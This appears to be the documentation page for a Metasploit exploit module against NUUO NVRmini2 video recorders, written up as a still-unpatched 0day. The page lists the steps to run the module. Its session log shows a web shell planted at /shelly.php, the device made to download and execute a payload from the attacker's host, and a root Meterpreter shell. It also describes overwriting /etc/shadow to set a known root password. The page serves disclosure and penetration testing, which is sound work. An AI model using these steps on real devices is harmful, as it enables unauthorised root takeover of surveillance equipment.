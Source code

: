## Vulnerable Application
NUUO's [NVRmini2](https://nuuo.com/ProductNode.php?node=2#) is a Network Video Recorder (NVR) produced by [NUUO Inc.](https://nuuo.com)
As with most NVR, it has terrible security and has been hacked multiple times, the [very first one by me](https://seclists.org/fulldisclosure/2016/Aug/36) back in 2016 with [command injections and a stack overflow](https://github.com/pedrib/PoC/blob/master/advisories/NUUO/nuuo-nvr-vulns.txt).
A [Metasploit module from 2016](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/linux/http/nuuo_nvrmini_unauth_rce.rb) is available to exploit this old vulnerability.

Six years later, it's time to pwn it again, by abusing an insecure user update mechanism and a very old path traversal vulnerability to execute code as root! This vulnerability has been reported to NUUO *multiple times* and despite their attempted fixes, it's still an `0day` at the time of release of this exploit.

It is recommended to read the [full advisory](https://github.com/pedrib/PoC/blob/master/advisories/NUUO/nuuo_nvrmini_round2.mkd) for more details.

## Verification Steps
Example steps in this format (is also in the PR):

1. Start the NVRmini2
2. Start msfconsole
3. Do: `use [module path]`
4. Do: `set rhost <TARGET>`
5. Do: `set lhost <YOUR_IP_ADDRESS>`
6. Do: `run`
7. You should get a shell.

## Scenarios
```
[*] Started reverse TCP handler on 192.168.241.1:4444
[*] 192.168.241.61:80 - Uploading initial payload...
[+] 192.168.241.61:80 - We now have root access via /shelly.php, using it to deploy payload...
[*] 192.168.241.61:80 - Starting up our web service on http://192.168.241.1:4445/hWICscieDptfuL ...
[*] Using URL: http://192.168.241.1:4445/hWICscieDptfuL
[*] 192.168.241.61:80 - Asking the device to download and execute http://192.168.241.1:4445/hWICscieDptfuL
[*] 192.168.241.61:80 - Sending the payload to the device...
[*] Sending stage (903360 bytes) to 192.168.241.61
[+] Deleted /NUUO/web/shelly.php
[*] Meterpreter session 5 opened (192.168.241.1:4444 -> 192.168.241.61:40979 ) at 2022-01-07 23:14:29 +0000
[+] 192.168.241.61:80 - Shell incoming!
[*] Server stopped.

meterpreter > getuid
Server username: root
meterpreter > shell
Process 14664 created.
Channel 1 created.
id
uid=0(root) gid=0(root)
uname -a
Linux NVR 2.6.31.8 #1 Thu Oct 11 09:18:12 CST 2018 armv5tel GNU/Linux
cat /etc/titan.conf
[Version]
Kernel=2.6.31.8.0006
MIN_Kernel=2.6.31.8.0000
OS=03.11.0000.0016
MIN_OS=01.06.0000.0113
NVR=03.11.0000.0016
MIN_NVR=01.06.0000.0113
(...)
NVRReleaseDate=20211110
(...)
```

### Targets

This exploit has two targets: one for firmware versions v2.0.0 and above (v3.11.0 is the latest at the time of writing).
This version works by deploying a web shell to `/NUUO/web/shelly.php`, which is then used to download and execute our payload.
The second target is for firmware versions v1.7.6. For these versions, the webshell doesn't work, and instead we overwrite the `/etc/shadow` file.
After this overwrite, you can login with `root:YouHaveBeenOwned`. For older versions, it is recommended instead to use [Metasploit module from 2016](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/linux/http/nuuo_nvrmini_unauth_rce.rb), as it works more cleanly.

NOTE: this module uses these two hardcoded methods (web shell and shadow file overwrite) because the target has some custom encryption that needs to be applied to the uploaded file.
This custom encryption was not reversed due to laziness, but feel free to do it you're up to it! Check [the advisory](https://github.com/pedrib/PoC/blob/master/advisories/NUUO/nuuo_nvrmini_round2.mkd) for more details.
